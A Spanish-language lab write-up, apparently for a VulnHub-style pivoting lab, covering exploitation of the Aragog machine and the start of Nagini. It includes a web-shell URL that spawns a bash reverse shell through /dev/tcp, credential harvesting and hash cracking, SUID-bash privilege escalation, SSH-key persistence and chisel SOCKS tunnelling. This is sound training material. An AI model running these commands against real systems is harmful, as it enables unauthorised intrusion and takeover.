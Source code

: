 | Máquina       | Interface 1 | Interface 2 | 
|:--------------|:------------|:------------|
| Aragog        | Brigde      | VMnet 2     |             
| Nagini        | VMnet 2     | VMnet 3     |             
| Fawkes        | VMnet 3     |             |             
| Dumbledore    | VMnet 3     | VMnet 4     |             
| Matrix        | VMnet 4     | VMnet 5     |             
| Brainpan      | VMnet 5     |             |             

# Explotación de máquinas
## Aragog
- Tiene alojado un WP donde podemos realizar un RCE mediante el pluggins file manager.
	- Podemos sacar información de posibles vulnerabilidades con _WpScan_ , este nos reporta una ruta con un .py. El _.py_ nos permite subir un archivo .php en el cual podemos incluir el tipico _cmd.php_. Para después mandarnos un revshell.


``` bash
$> nc -nlvp 7771 # Atacante
$> http://192.168.50.248/blog/wp-content/plugins/wp-file-manager/lib/files/payload.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.50.202/7771%200%3E%261%22 # URL WEB
```
  -  _www-data_ accedemos con este usuario a la máquina. Buscando info  en archivos de configuración de wordpress "/usr/share/wordpress$ cat /etc/wordpress/config-default.php" encontramos user y pass para mysql. "root:mySecr3tPass".
	- Dentro de _mysql_ econtramos el hash "$P$BYdTic1NGSb8hJbpVEMiJaAiNJDHtc." para el user hagrid98, con john crackeamos la contraseña "password123"
	- Con _find_ vemos todos los archivos del user hagrid98, y nos encontramos un archivo en /opt/.back..... Tenemos permisos para modificar el archivo y este es ejecutado por root. Entonces agregamos al archivo "chmod u+s /bin/bash" 
	- Para más comodidad en el futuro, nos creamos un ssh-keygen en nuestra máquina y copiamos el .pub en el _"authorized_keys"_ de la máquina _Aragog._
	- **PWNED!**

### Pivoting Aragog Tunnel chisel
``` bash
$> scp chisel root@192.168.50.202:/tmp/chisel # Como tenemos authorized_key podemos copiarnos un archivo de esta forma.
$> sudo ./chisel server --reverse -p 1234 # ATACANTE: Creamos un server con chisel para despues mandarnos un puerto de otro equipo.
$> ./chisel client 192.168.50.202:1234 R:socks R:443:10.10.0.129:443/udp # VICTIMA: Nos conectamos a la ip y port del "sever_Chisel", y despues nos mandamos el port 80 del HOST que no alzancamos "10.10.0.129" a nuestro 80.
```

## Nigini
- Nos hemos creado el _tunel socks_ con chisel, ahora las aplicaciones que  usemos tenemos que hacerlas entrar en el tunerl para  poner ejecutarlar.
- Examples:
	- proxychains nmap .....
	- gobuster ... snif ... --proxy socks5:/\/127.0.0.1:1080
	- El navegador configuramos con foxyproxy una conexion de socks5 aputando al 127.0.0.1 y puerto 1080.
- Enumerando la web vemos un note.txt, que nos indica una ruta. Para ver la nueva ruta tenemos que reaizar una peticion mediante **"http3"**, para eso tenemos que instalar [esto](https://github.com/cloudflare/quiche). 
- Haciendo la petición con **"./http3-client \https://127.0.0.1"** vemos el contenido y nos indica otra ruta _"\http://10.10.0.129/internalResourceFeTcher.php"_. 
